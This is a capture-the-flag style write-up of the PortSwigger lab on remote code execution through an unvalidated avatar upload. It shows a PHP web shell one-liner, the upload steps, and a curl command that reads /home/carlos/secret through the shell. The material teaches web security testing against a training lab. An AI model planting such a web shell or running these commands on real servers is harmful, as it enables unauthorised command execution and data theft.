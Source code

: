 # Remote code execution via web shell upload

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload), you'll learn: Remote code execution via web shell upload! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215234741.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215234759.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215234806.png)

**In the lab's background, it said:**

> This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

Now, If the application doesn't do any validation on user's file upload, an attack could upload a web shell to the web server's filesystem!

**But before we do that, let's upload a normal file, and intercept the request via Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235217.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235323.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235345.png)

As you can see, when we clicked the `Upload` button, **a POST request will be sent to `/my-account/avatar`, with parameters `name`, `user`, `csrf`.**

**Let's forward that request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235604.png)

It tells us the file has been uploaded, and **where does the file lives: `avatars/<filename>`.**

**Also, when we can go to the `My account` page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235744.png)

**We can see the image file. Let's open that in new tab:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235817.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235830.png)

Now we know **the exact location of the uploaded file: `/files/avatars/test.jpg`.**

**Armed with above information, we can try to upload some PHP web shells!**

**Payload:**
```php
<?php system($_GET['cmd']); ?>
```

This PHP web shell one-liner will execute any commands when we provide a GET parameter `cmd`.

**E.g: `webshell.php?cmd=id`**

**Now, let's upload that to the web application!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221216000504.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221216000517.png)

**Nice! Let's go to `/files/avatars/webshell.php?cmd=id`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221216000611.png)

**We now have Remote Code Execution(RCE)! Let's `cat` the `secret` file!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1]
└─# curl https://0af000a203c4eff4c8e0246f00830085.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=cat /home/carlos/secret"
yD3sebCja8SUTL8vy9XAIeKVHT5eWoc1
```

# What we've learned:

1. Remote code execution via web shell upload